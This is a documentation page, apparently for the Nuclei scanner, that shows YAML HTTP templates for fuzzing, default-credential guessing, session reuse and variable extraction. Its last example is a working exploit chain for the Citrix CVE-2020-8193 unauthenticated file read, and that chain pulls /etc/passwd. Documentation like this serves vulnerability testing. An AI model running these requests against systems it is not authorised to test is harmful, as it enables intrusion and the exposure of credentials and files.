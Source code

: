 ```yaml
---
title: "HTTP Payloads"
---
```


## HTTP Intruder fuzzing

This template makes a defined POST request in RAW format along with in template defined payloads running `clusterbomb` intruder and checking for string match against response.


```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

# HTTP Intruder fuzzing with in template payload support. 

http:

  - raw:
      - |
        POST /?username=§username§&paramb=§password§ HTTP/1.1
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5)
        Host: {{Hostname}}
        another_header: {{base64('§password§')}}
        Accept: */*
        body=test

    payloads:
      username:
        - admin

      password:
        - admin
        - guest
        - password
        - test
        - 12345
        - 123456

    attack: clusterbomb # Available: batteringram,pitchfork,clusterbomb

    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```

## Fuzzing multiple requests 

This template makes a defined POST request in RAW format along with wordlist based payloads running `clusterbomb` intruder and checking for string match against response.

```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

http:

  - raw:
      - |
        POST /?param_a=§param_a§&paramb=§param_b§ HTTP/1.1
        User-Agent: §param_a§
        Host: {{Hostname}}
        another_header: {{base64('§param_b§')}}
        Accept: */*

        admin=test

      - |
        DELETE / HTTP/1.1
        User-Agent: nuclei
        Host: {{Hostname}}

        {{sha256('§param_a§')}} 

      - |
        PUT / HTTP/1.1
        Host: {{Hostname}}

        {{html_escape('§param_a§')}} + {{hex_encode('§param_b§'))}}

    attack: clusterbomb # Available types: batteringram,pitchfork,clusterbomb
    payloads:
      param_a: payloads/prams.txt
      param_b: payloads/paths.txt

    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```

## Authenticated fuzzing

This template makes a subsequent HTTP requests with defined requests maintaining sessions between each request and checking for string match against response.

```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

http:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
        Origin: {{BaseURL}}

      - |
        POST /testing HTTP/1.1
        Host: {{Hostname}}
        Origin: {{BaseURL}}

        testing=parameter

    cookie-reuse: true # Cookie-reuse maintain the session between all request like browser. 
    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```

## Dynamic variable support

This template makes a subsequent HTTP requests maintaining sessions between each request, dynamically extracting data from one request and reusing them into another request using variable name and checking for string match against response.

```yaml
id: CVE-2020-8193

info:
  name: Citrix unauthenticated LFI
  author: pdteam
  severity: high
  reference: https://github.com/jas502n/CVE-2020-8193

http:
  - raw:
      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
        Content-Type: application/xml
        X-NITRO-USER: xpyZxwy6
        X-NITRO-PASS: xWXHUJ56

        <appfwprofile><login></login></appfwprofile>

      - |
        GET /menu/ss?sid=nsroot&username=nsroot&force_setup=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/neo HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/stc HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <appfwprofile><login></login></appfwprofile>

      - |
        POST /rapi/filedownload?filter=path:%2Fetc%2Fpasswd HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <clipermission></clipermission>

    cookie-reuse: true # Using cookie-reuse to maintain session between each request, same as browser.

    extractors:
      - type: regex
        name: randkey # Variable name
        part: body
        internal: true
        regex:
          - "(?m)[0-9]{3,10}\\.[0-9]+"

    matchers:
      - type: regex
        regex:
          - "root:[x*]:0:0:"
        part: body
```